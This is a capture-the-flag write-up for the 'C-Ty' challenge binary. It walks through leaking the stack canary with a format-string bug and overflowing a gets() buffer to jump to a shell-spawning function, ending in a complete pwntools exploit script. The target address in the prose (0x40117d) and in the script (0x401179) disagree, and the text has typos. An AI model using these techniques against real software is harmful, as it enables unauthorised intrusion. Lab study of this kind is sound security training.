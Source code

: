 # Problem:
namp scan get the following:   
```
2500/tcp open     rtsserv?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, NULL: 
|_    Warning: this server only sends one line at a time. If you've opened a shell, this may lead to some weird shenanigans until you are able to get a proper shell with netcat.Welcome to the C-Ty! You notice a canary watching over these parts. But can you get past it with the right set of words? Input encoded in hex:
```   
Attached are two files: cty.c and cty (binary)

## Classic BOF with Canary problem
### Run the cty binary:   
```
kali@kali:~/ct-y$ ./cty
AAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
```    
### Analysis

The code is a simple c code:
``` 
#include <stdio.h>
#include <unistd.h>
#include <string.h>
 
void dumpFlag() {
    puts("The blue key to The Gate is '[key removed]'");
}
 
void runIntoTheCty() {
    puts("Running into the C-Ty...");
    char* args[] = {"/bin/sh", NULL};
    execv("/bin/sh", args);
}
 
int main() {
    char input[256];
    gets(input);
    printf(input);
    puts("");
    gets(input);
    printf(input);
    puts("");
}                      
```    
With pwn we can check the binary **cty**: it is a 64 bit ELF. As you can see, Canary protection is active.    
```
kali@kali:~/ct-y$ pwn checksec cty                                                                                
[*] '/home/kali/ct-y/cty'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
With GDB we can see in the main function, the canary is checked:    
```
   0x0000000000401256 <+125>:   call   0x401030 <puts@plt>
   0x000000000040125b <+130>:   mov    eax,0x0
   0x0000000000401260 <+135>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401264 <+139>:   sub    rdx,QWORD PTR fs:0x28     //check canary. RDX is the register
   0x000000000040126d <+148>:   je     0x401274 <main+155>
   0x000000000040126f <+150>:   call   0x401040 <__stack_chk_fail@plt>

   ``` 
As soon as we see the c code, we see a format string in **printf()**, and an overflow buffer in **gets()**.    
### Leak the Canary
We do a python code to see possible outputs of **format strings**      
**%dlx** is used to print out address value

(This article explains well about what is <a href="https://www.win.tue.nl/~aeb/linux/hh/hh-5.html#ss5.4">format strings attack</a> )
```
#!/usr/bin/env python3
from pwn import *

io = ELF("./cty")
for i in range(50):
  p = io.process(level="error")
  p.sendline("33")
  p.sendline("AAAA %%%d$lx" % i)
  p.recvline()
  print("%d - %s" % (i, p.recvline().strip()))
  p.close()
```
Output is:
```
kali@kali:~/ct-y$ python3 t1.py
[*] '/home/kali/ct-y/cty'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
0 - b'AAAA %0$lx'
1 - b'AAAA 6c24312520414141'
2 - b'AAAA 0'
3 - b'AAAA 7fee9f427980'
4 - b'AAAA 7fff84aba680'
5 - b'AAAA 0'
6 - b'AAAA 2436252041414141'
7 - b'AAAA 7f68d200786c'
8 - b'AAAA 0'
9 - b'AAAA 7ffe058d6790'
10 - b'AAAA 7f866c983730'
11 - b'AAAA 7fe96a5b4ac0'
12 - b'AAAA 0'
13 - b'AAAA 0'
14 - b'AAAA 0'
15 - b'AAAA 0'
16 - b'AAAA ffffffff'
17 - b'AAAA 0'
18 - b'AAAA 7ffc83d342a8'
19 - b'AAAA 7f1aa9e29730'
20 - b'AAAA 0'
21 - b'AAAA 0'
22 - b'AAAA 0'
23 - b'AAAA 0'
24 - b'AAAA 0'
25 - b'AAAA 0'
26 - b'AAAA 0'
27 - b'AAAA f0b5ff'
28 - b'AAAA c2'
29 - b'AAAA 7ffefe41cea7'
30 - b'AAAA 7ffd535a3946'
31 - b'AAAA 7f1a482769f5'
32 - b'AAAA 0'
33 - b'AAAA 4012cd'
34 - b'AAAA 0'
35 - b'AAAA 0'
36 - b'AAAA 401280'
37 - b'AAAA 401080'
38 - b'AAAA 7ffc4da218f0'
39 - b'AAAA 369bda5ddbf1bc00'
40 - b'AAAA 401280'
41 - b'AAAA 7fecf9ae4e0b'
42 - b'AAAA 0'
43 - b'AAAA 7ffe78103658'
44 - b'AAAA 100040000'
45 - b'AAAA 4011d9'
46 - b'AAAA 0'
47 - b'AAAA d2d22253bdd7b319'
48 - b'AAAA 401080'
49 - b'AAAA 7ffe0446bea0'
```
Out starting with **0x7f** correspond to libc memory addresses. Canary usually ends with **00**.
In 39th, we see one canary possible address.   
To calculate if the canary corresponds with output 39 of **format string**, we use gdb again:

```
kali@kali:~/ct-y$ gdb cty
GNU gdb (Debian 9.2-1) 9.2
gef➤  disass main
Dump of assembler code for function main:
0x00000000004011d9 <+0>:     push   rbp
.....
0x0000000000401260 <+135>:   mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000401264 <+139>:   sub    rdx,QWORD PTR fs:0x28
0x000000000040126d <+148>:   je     0x401274 <main+155>
0x000000000040126f <+150>:   call   0x401040 <__stack_chk_fail@plt>
...
End of assembler dump.
gef➤  b *main+139
Breakpoint 1 at 0x401264
gef➤  r
Starting program: /home/kali/ct-y/cty 
%39$lx
d2f524612effb00     //Canary value at 39th
A
A
Breakpoint 1, 0x0000000000401264 in main ()
.....
gef➤  p $rdx
$2 = 0xd2f524612effb00  //Canary value at the rdx. They match
````
Perfect, we get the location at 39.

### Padding
Now we calculate the padding we use to overwrite the canary and then the return address.  
Breakpoint set at the canary check point again: *main+139
```
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
gef➤  r
Starting program: /home/kali/ct-y/cty 
a
a
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa

Breakpoint 1, 0x0000000000401264 in main ()
gef➤  p/x $rdx               //rdx overload with created pattern, use that to find the offset
$3 = 0x6261616161616169
gef➤  pattern offset 0x6261616161616169
[+] Searching '0x6261616161616169'
[+] Found at offset 264 (little-endian search) likely
```
We found the offset to **canary** likely to be **264**. So we create the payload to be like this:
```
"A"*264+CANARY+"A"*8+ ROP
```
**ROP** is the function jump address. In this case, would be the address of **void runIntoTheCty()**.
We can find it using GDB. The address is **0x40117d**
```
gef➤  b runIntoTheCty
Breakpoint 2 at 0x40117d
```
Thus we craft the python program like this:
```
#!/usr/bin/evn python3
from pwn import *

e = ELF('./cty')
io = e.process()
gdb.attach(io)
io.sendline('%39$lx')
leak = io.recvline()
canary = int(leak.strip(),16)
log.info("Canary: %s" % (hex(canary)))

run = 0x401179
pl = b'A'*8
payload = b'A'*264 + p64(canary) + pl + p64(run)
io.sendline(payload)
io.interactive()
```




